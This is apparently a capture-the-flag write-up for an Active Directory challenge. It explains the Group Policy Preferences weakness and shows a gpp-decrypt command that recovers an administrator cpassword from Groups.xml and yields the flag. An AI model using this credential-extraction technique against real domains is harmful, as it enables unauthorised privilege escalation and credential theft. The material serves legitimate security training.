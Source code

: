# Active Directory

##Solution:

People might be aware of “Group Policy Preferences” in Windows Server 2008 that allows system administrators to set up specific configurations. It can be used to create a username and encrypted password on machines. But do you know, that a normal user can elevate privilege to the local administrator and probably compromise the security of the entire domain because passwords in preference items are not secured?

we notice **Groups.xml** in one of the folders

![](groups.png)

it contains the administrator cpassword 

```
gpp-decrypt 3g4TWcMxZ0ZrE2jVR7dTo35mGErheJS8w6opX3UW9a3FvxHRskfK/CUOf1GBB8z7MYH1u8jUnJxHZs7DjYM0bQ
b00t2root{Grp_p0l1c13s_sUck}
```
**gpp-decrypt** already exists in kali linux

read this for more information: 
https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/

